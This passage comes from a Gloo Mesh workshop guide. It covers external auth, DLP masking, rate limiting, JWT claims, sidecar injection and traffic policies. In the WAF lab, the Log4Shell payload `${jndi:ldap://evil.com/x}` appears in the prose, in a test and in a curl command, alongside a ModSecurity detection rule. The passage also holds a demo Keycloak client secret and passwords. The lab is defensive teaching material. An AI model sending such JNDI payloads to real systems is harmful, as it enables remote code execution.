              namespace: gloo-mesh-addons
            issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
            logoutPath: /logout
            afterLogoutUrl: "https://cluster1-httpbin.example.com/get"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
            identityToken:
              claimsToHeaders:
                - claim: email
                  header: X-Email
      - opaAuth:
          modules:
          - name: allow-solo-email-users
            namespace: httpbin
          query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {

  const cookieString_user1 = process.env.USER1_COOKIE;
  const cookieString_user2 = process.env.USER2_COOKIE;

  it("The httpbin page isn't accessible with user1", () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user1 }], retCode: "keycloak-session=dummy" == cookieString_user1 ? 302 : 403 }));
  it("The httpbin page is accessible with user2", () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user2 }], retCode: 200 }));

});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/authorization.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `extauth` Pod to authorize the request):


## Lab 14 - Use the transformation filter to manipulate headers <a name="lab-14---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's create a `TransformationPolicy` to extract the claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: TransformationPolicy
metadata:
  name: modify-header
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 2
    request:
      injaTemplate:
        extractors:
          organization:
            header: 'X-Email'
            regex: '.*@(.*)$'
            subgroup: 1
        headers:
          x-organization:
            text: "{{ organization }}"
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Tranformation is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: '"X-Organization": "solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-transformation/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 15 - Use the DLP policy to mask sensitive data <a name="lab-15---use-the-dlp-policy-to-mask-sensitive-data-"></a>
[](https://youtu.be/Uark0F4g47s "Video Link")


Now that we learnt how to put user information from the JWT to HTTP headers visible to the applications, those same applications could return sensitive or protected user information in the responses. 

In this step, we're going to use a Data Loss Prevention (DLP) Policy to mask data in response bodies and headers.

Let's create a `DLPPolicy` to mask protected user information.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: DLPPolicy
metadata:
  name: basic-dlp-policy
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    sanitize: ALL # Enable DLP masking for both responses bodies and access logs
    actions:
    - predefinedAction: ALL_CREDIT_CARDS # AMEX, VISA, MASTERCARD, JCB, DISCOVER, ETC.
    - predefinedAction: SSN # Social Security Number
    - customAction:
        regexActions:
        - regex: '[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}' # Email
        - regex: 'eyJ[0-9a-zA-Z_-]+?\.[0-9a-zA-Z_-]+?\.[0-9a-zA-Z_-]+?' # JWT token
EOF
```

By default, the DLP policy will mask the email address with the character `X`, leaving 25% of the characters visible. 
Both character and percentage can be easily changed in the policy.

If you refresh the web page, you should see `X-Email` header masked as `XXXXXXXXXX.io`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("DLP Policy", function () {
  const cookieString = process.env.USER2_COOKIE;

  it('Email is masked', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: 'XXXXXXXXXX.io' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-dlp/tests/email-masked.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 16 - Apply rate limiting to the Gateway <a name="lab-16---apply-rate-limiting-to-the-gateway-"></a>


In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitServerConfig` object to define the limits based on the descriptors we will use later:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: httpbin
  namespace: httpbin
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
EOF
```

After that, we need to create a `RateLimitPolicy` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    serverSettings:
      name: rate-limit-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    raw:
      rateLimits:
      - setActions:
        - requestHeaders:
            descriptorKey: organization
            headerName: X-Organization
    ratelimitServerConfig:
      name: httpbin
      namespace: httpbin
      cluster: cluster1
    phase:
      postAuthz:
        priority: 3

EOF
```

Finally, you need to update the `RouteTable` to use this `RateLimitPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
        ratelimited: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
          port:
            number: 8000
EOF
```

Refresh the web page multiple times.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Rate limiting is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The httpbin page should be rate limited', () => helpersHttp.checkURL({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 429 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-ratelimiting/tests/rate-limited.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

You should get a `200` response code the first 3 time and a `429` response code after.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `rate limiter` Pod to determine if the request should be allowed):


Let's apply the original `RouteTable` yaml:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

And also delete the different objects we've created:
```bash
kubectl --context ${CLUSTER1} -n httpbin delete extauthpolicies httpbin
kubectl --context ${CLUSTER1} -n httpbin delete dlppolicy basic-dlp-policy
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitpolicy httpbin
kubectl --context ${CLUSTER1} -n httpbin delete ratelimitserverconfig httpbin
```


## Lab 17 - Use the Web Application Firewall filter <a name="lab-17---use-the-web-application-firewall-filter-"></a>
[](https://youtu.be/9q2TxtBDqrA "Video Link")

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That's what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{key: 'x-my-header', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-waf/tests/waf.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://cluster1-httpbin.example.com/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```


Let's apply the original `RouteTable` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-bookinfo
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-bookinfo.example.com
    - cluster2-bookinfo.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: bookinfo
          - labels:
              expose: "true"
            workspace: gateways
        sortMethod: ROUTE_SPECIFICITY
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```

And also delete the waf policy we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete wafpolicies log4shell
```


## Lab 18 - Use the JWT filter to create headers from claims <a name="lab-18---use-the-jwt-filter-to-create-headers-from-claims-"></a>
[](https://youtu.be/bpFKbhUIwgM "Video Link")

In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

You can restrict a request's access based on the claims and scopes in a JWT. `Claims` are key-value pairs that provide identity details, such as the subject's user ID, the entity that issued the token, and expiration time. `Scopes` are strings that indicate the permissions granted to the token holder.

Keycloak is running outside of the Service Mesh, so we need to define an `ExternalService` and its associated `ExternalEndpoint`:

Let's start by the latter:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    host: keycloak
spec:
  address: ${HOST_KEYCLOAK}
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
EOF
```

Then we can create the former:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - keycloak
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
    protocol: HTTP
  selector:
    host: keycloak
EOF
```

Now, we can create a `JWTPolicy` to extract the claim.

Create the policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      preAuthz: {}
    claims:
    - key: "email"
      values:
      - "*@solo.io"
    requiredScopes:
    - "email"
    providers:
      keycloak:
        issuer: ${KEYCLOAK_URL}/realms/workshop
        tokenSource:
          headers:
          - name: jwt
        remote:
          url: ${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs
          destinationRef:
            kind: EXTERNAL_SERVICE
            ref:
              name: keycloak
            port:
              number: ${PORT_KEYCLOAK}
        claimsToHeaders:
        - claim: email
          header: X-Email-Jwt
EOF
```

And update the routable:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

We will use gloo to add conditional access to the `httpbin` service based on the `email` scope and claim in the JWT token.

```shell
export USER2_COOKIE_JWT=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=gloo-ext-auth" \
  -d "client_secret=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri" \
  -d "username=user2" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)
curl -kis https://cluster1-httpbin.example.com/get -H "jwt: ${USER2_COOKIE_JWT}"
```

You should see a new `X-Email-Jwt` header added to the request with the value `user2@solo.io`

<!--bash
source data/steps/gateway-jwt/kc-token.sh
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const jwtString = process.env.USER2_COOKIE_JWT;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"X-Email-Jwt":' }));
  it('The new header has value', () => helpersHttp.checkBody({ host: `https://cluster1-httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/httpbin/gateway-jwt/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


Let's apply the original `RouteTable` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-bookinfo
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-bookinfo.example.com
    - cluster2-bookinfo.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: bookinfo
          - labels:
              expose: "true"
            workspace: gateways
        sortMethod: ROUTE_SPECIFICITY
---
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```

And also delete the jwt policy we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete jwtpolicies httpbin
```


## Lab 19 - Adding services to the mesh <a name="lab-19---adding-services-to-the-mesh-"></a>

In this lab, you will incrementally add services to the mesh. The mesh is actually integrated with the services themselves which makes it mostly transparent to the service implementation.

Before we start, take a look at the UI Graph. You can see the gateway and the services that have interacted with it. The services are not part of the mesh yet, so you can't see the traffic between them.


## Sidecar injection

Adding services to the mesh requires that the client-side proxies be associated with the service components and registered with the control plane. With Istio, you have several methods to inject the Envoy Proxy sidecar into the microservice Kubernetes pods:

* Automatic sidecar injection. In this mode, the sidecar is automatically injected into the pods based on the namespace annotation.
* Manual sidecar injection. In this mode, you manually inject the sidecar into the pods.

1. To enable the automatic sidecar injection, use the command below to add the necessary labels to the `bookinfo-frontends` namespace:

```bash
kubectl --context ${CLUSTER1} label namespace bookinfo-frontends istio.io/rev=1-22
kubectl --context ${CLUSTER2} label namespace bookinfo-frontends istio.io/rev=1-22
```

2. Validate the namespace is annotated with the necessary labels:

```shell
kubectl --context ${CLUSTER1} get namespace -L istio.io/rev
kubectl --context ${CLUSTER2} get namespace -L istio.io/rev
```
Now that you have a namespace with automatic sidecar injection enabled, you are ready to start adding services to the mesh. Since you added the istio.io/rev label to the namespace, the Istio mutating admission controller automatically injects the Envoy Proxy sidecar during the initial deployment or restart of the pod.

## Adding services to the mesh
1. You can add a sidecar to each of the services in the `bookinfo-frontends` namespace, starting with the `productpage-v1` service:

```bash
kubectl --context ${CLUSTER1} rollout restart deployment productpage-v1 -n bookinfo-frontends
kubectl --context ${CLUSTER2} rollout restart deployment productpage-v1 -n bookinfo-frontends
```
<!--bash
echo -n Waiting for restart...
kubectl --context ${CLUSTER1} rollout status deployment productpage-v1 -n bookinfo-frontends
kubectl --context ${CLUSTER2} rollout status deployment productpage-v1 -n bookinfo-frontends
-->

2. Validate the `productpage` pod is running with Istio's default sidecar proxy injected:

```shell
kubectl --context ${CLUSTER1} get pod -l app=productpage -n bookinfo-frontends
kubectl --context ${CLUSTER2} get pod -l app=productpage -n bookinfo-frontends
```

You should see `2/2` in the output. This indicates the sidecar proxy is running alongside the `productpage` application container in the `productpage` pod:
```text,nocopy
NAME                           READY   STATUS    RESTARTS   AGE
productpage-7d5ccfd7b4-m7lkj   2/2     Running   0          9m4s
```

3. Validate the `productpage` pod log looks good:

```shell
kubectl --context ${CLUSTER1} logs deploy/productpage-v1 -c productpage -n bookinfo-frontends
```

4. Validate you can continue to call the `productpage` service securely:

[http://cluster1-bookinfo.example.com/productpage](http://cluster1-bookinfo.example.com/productpage)

## Add more services to the Istio service mesh

Now that you have added the `productpage` service to the mesh, you can add the other services to the mesh as well. The `details`, `reviews`, and `ratings` services are part of the `bookinfo-backends` namespace.

1. First, you need to annotate the `bookinfo-backends` namespace to enable automatic sidecar injection:

```bash
kubectl --context ${CLUSTER1} label namespace bookinfo-backends istio.io/rev=1-22
kubectl --context ${CLUSTER2} label namespace bookinfo-backends istio.io/rev=1-22
```

2. Next, you can add the `istio-proxy` sidecar to the other services in the `bookinfo-backends` namespace

```bash
kubectl --context ${CLUSTER1} -n bookinfo-backends rollout restart deployment
kubectl --context ${CLUSTER2} -n bookinfo-backends rollout restart deployment
```
<!--bash
echo -n Waiting for restart...
kubectl --context ${CLUSTER1} -n bookinfo-backends rollout status deployment
kubectl --context ${CLUSTER2} -n bookinfo-backends rollout status deployment
-->


3. Validate that all the pods in the `bookinfo-backends` namespace are running with Istio's default sidecar proxy injected:

```shell
kubectl --context ${CLUSTER1} get pods -n bookinfo-backends
kubectl --context ${CLUSTER2} get pods -n bookinfo-backends
```

4. Verify that you can continue to call the `productpage` service securely:

[http://cluster1-bookinfo.example.com/productpage](http://cluster1-bookinfo.example.com/productpage)

## What have you gained?

One of the values of using a service mesh is that you will gain immediate insight into the behavior and interactions between your services. Istio gives you access to important telemetry data, just by adding services to the mesh. In addition, you get a lot of functionality for free, such as load balancing, circuit breaking, mutual TLS, and more.

You can now see the services in the UI Graph, the traffic between them, and if they are healthy or not.


<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Bookinfo app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
  cluster = process.env.CLUSTER2
  deployments = ["productpage-v1"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-frontends", k8sObj: deploy }));
  });
  deployments = ["ratings-v1", "details-v1", "reviews-v1", "reviews-v2", "reviews-v3"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "bookinfo-backends", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/adding-services-to-mesh/../deploy-bookinfo/tests/check-bookinfo.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 20 - Traffic policies <a name="lab-20---traffic-policies-"></a>
[](https://youtu.be/ZBdt8WA0U64 "Video Link")

We're going to use Gloo Mesh policies to inject faults and configure timeouts.

Let's create the following `FaultInjectionPolicy` to inject a delay when the `v2` version of the `reviews` service talk to the `ratings` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FaultInjectionPolicy
metadata:
  name: ratings-fault-injection
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        fault_injection: "true"
  config:
    delay:
      fixedDelay: 2s
      percentage: 100
EOF
```

As you can see, it will be applied to all the routes that have the label `fault_injection` set to `"true"`.

So, you need to create a `RouteTable` with this label set in the corresponding route.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: ratings
  namespace: bookinfo-frontends
spec:
  hosts:
    - 'ratings.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: reviews
  http:
    - name: ratings
      labels:
        fault_injection: "true"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: ratings
              namespace: bookinfo-backends
            port:
              number: 9080
EOF
```

If you refresh the webpage, you should see that it takes longer to get the `productpage` loaded when version `v2` of the `reviews` services is called.

Now, let's configure a 0.5s request timeout when the `productpage` service calls the `reviews` service on cluster1.

You need to create the following `RetryTimeoutPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: RetryTimeoutPolicy
metadata:
  name: reviews-request-timeout
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        request_timeout: "0.5s"
  config:
    requestTimeout: 0.5s
EOF
```

As you can see, it will be applied to all the routes that have the label `request_timeout` set to `"0.5s"`.

Then, you need to create a `RouteTable` with this label set in the corresponding route.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: reviews
  namespace: bookinfo-frontends
spec:
  hosts:
    - 'reviews.bookinfo-backends.svc.cluster.local'
  workloadSelectors:
  - selector:
      labels:
        app: productpage
  http:
    - name: reviews
      labels:
        request_timeout: "0.5s"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: reviews
              namespace: bookinfo-backends
            port:
              number: 9080
            subset:
              version: v2
EOF
```
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const chaiHttp = require("chai-http");
chai.use(chaiHttp);

process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0';

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

let searchTest="Sorry, product reviews are currently unavailable for this book.";

describe("Reviews shouldn't be available", () => {
  it("Checking text '" + searchTest + "' in cluster1", async () => {
    await chai.request(`https://cluster1-bookinfo.example.com`)
      .get('/productpage')
      .send()
      .then((res) => {
        expect(res.text).to.contain(searchTest);
      });
  });

});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/traffic-policies/tests/traffic-policies-reviews-unavailable.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

If you refresh the page several times, you'll see an error message telling that reviews are unavailable when the productpage is trying to communicate with the version `v2` of the `reviews` service.



This diagram shows where the timeout and delay have been applied:


Let's delete the Gloo Mesh objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete faultinjectionpolicy ratings-fault-injection
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete routetable ratings
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete retrytimeoutpolicy reviews-request-timeout
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete routetable reviews
```


## Lab 21 - Create the Root Trust Policy <a name="lab-21---create-the-root-trust-policy-"></a>
[](https://youtu.be/-A2U2fYYgrU "Video Link")

To allow secured (end-to-end mTLS) cross cluster communications, we need to make sure the certificates issued by the Istio control plane on each cluster are signed with intermediate certificates which have a common root CA.

Gloo Mesh fully automates this process.


Run the following command to create the *Root Trust Policy*:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RootTrustPolicy
metadata:
  name: root-trust-policy
  namespace: gloo-mesh
spec:
  config:
    mgmtServerCa:
      generated: {}
EOF
```

When we create the RootTrustPolicy, Gloo Mesh will kick off the process of unifying identities under a shared root.

First, Gloo Mesh will create the Root certificate.

Then, Gloo Mesh will use the Gloo Mesh Agent on each of the clusters to create a new key/cert pair that will form an intermediate CA used by the mesh on that cluster. It will then create a Certificate Request (CR).


Gloo Mesh will then sign the intermediate certificates with the Root certificate.

